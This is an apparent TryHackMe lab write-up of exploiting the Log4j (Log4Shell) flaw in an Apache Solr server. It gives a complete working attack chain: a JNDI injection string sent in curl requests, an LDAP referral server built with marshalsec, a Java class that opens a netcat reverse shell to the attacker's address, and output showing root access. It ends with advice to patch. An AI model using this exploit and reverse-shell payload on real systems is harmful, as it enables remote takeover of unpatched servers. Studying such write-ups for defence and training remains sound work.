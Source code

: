 Log4j - Exploiting a Vulnerable Apache Solar Server. [Java 1.8.0_181]


### Enumerating and Analyzing target
Dashboard seen on admin front page
Verify that log4j in use for logging via nmap scan (all ports) - note info on dashboard as well

Note log directory...
```-Dsolr.log.dir```

### In logs, find an entry point 

INFO entries with repeated endpoint requests -> parameter field

### Parameter will be used as the attack vector, with payload passed as a parameter

``` ${jndi:ldap://ATTACKERADDRESS} ```

Using JNDI to allow for external resource lookup, ATTACKERADDRESS will be a listener on the kali machine.

a basic listener that will be employed
```$ nc -lnvp 4444```

## Remote Code Execution - Injection
 - Log4j processes logs by parsing entries, but may EXECUTE code in entry 
 - Any data logged is vulnerable --- we have identified one entry point from the logs earlier
  - Entry poiunt can also include forms/any source of user supplied data HTTP headers, 

Putting things together, here is an example of a maliciously crafted curl request:

```$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{10.9.1.93:4444\}'```

This payload will be delivered and executed by Log4j during parsing...
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?foo=$\{jndi:ldap://10.9.1.93:4444\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
  ```
  
Did the injection work for connnecting back to our machine??

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 4444     
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50884
0
 `�

```
It worked :D but what can we do with this, what are those weird characters??? 

## Exploitation 

We can run a referral server to redirect from LDAP to another location containing our desired payload.

### Need http server to host some files on our machine that contain the good stuff (like a stage) ;)
```python python3 -m http.server```

### Need the LDAP referral server to redirect to the HTTP server where the stager resides

Ensure marshalsec is installed via ```mvn clean package -DskipTests``` after cloning the marshalsec git repository https://github.com/mbechler/marshalsec
There may be support for newer Java verisons, but marshalsec is originally developed to be used with the Java8 JDK (8u181), found at https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html

Below we start up the refserver on our local system (this server waits for a connection, and then serves the redirect to whatever exploit we have)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```
The refserver listens on 1389 by default (LDAP) and then forwards to 8000

Notice the .java ? Any payload going through Log2j will be executed as Java code...

## Now we have the meat of this RCE exploit: remotely executing arbitrary code of any Java file, malicious or not.

Create a .java file in your favorite IDE or text editor with the same name as [EXPLOITHERE]:

```java

public class NotSus{

	static{
		try{
			java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 10.9.1.93 4444"); // reverse shell connects back to us
		}
		catch(Exception e){
			;        // no unnecessary noise if anything goes wrong
		}
	}

}
```
Here is a simple reverse shell java class for the payload

Compile : ```sh $ javac NotSus.java```


# Put things together, we start setting up the delivery of a staged payload...

In separate terminals:

file server with the payload - just hosting the current directory on pt 8000
```sh
┌──(kali㉿kali)-[~/Documents]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

listen for incoming connections from the victim - keep an eye on this ;)
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ nc -lnvp 4444                
listening on [any] 4444 ...

```
rfserver that the victim will connect back to, traffic forwarded to the python file server for the Java payload
```sh
┌──(kali㉿kali)-[/tmp/marshalsec]
└─$ java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.1.93:8000/[EXPLOITHERE].java"
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
```

# HELLO COMPUTER, YOU HAVE A DELIVERY!! ;)) 
### The crafted GET request to the endpoint that is logging - go ahead and send it!!!!!!
```sh
┌──(kali㉿kali)-[~]
└─$ curl 'http://10.10.22.239:8983/solr/admin/cores?pwn=$\{jndi:ldap://10.9.1.93:1389/NotSus\}' 
{
  "responseHeader":{
    "status":0,
    "QTime":0},
  "initFailures":{},
  "status":{}}
```


### nc listener - type a command and notice that we have gained full control, and can remotely do anything with our shell access
### the listener isn't the prettiest so consider sending a different payload or execute whatever java code you want

```sh
$ nc -lnvp...
listening on [any] 4444 ...
connect to [10.9.1.93] from (UNKNOWN) [10.10.22.239] 50930

whoami
solr
sudo su

whoami
root

```


## As always, from here are ways to establish persistence and C2 presence.
## Plz don't be lazy and audit your systems and commit to regular vulnerability management, this vulnerability has been disclosed for over a week now and machines EVERYWHERE are still being exploited >:(





Special thanks to John Hammond for making this simpler to understand (as always), and TryHackMe for providing the box



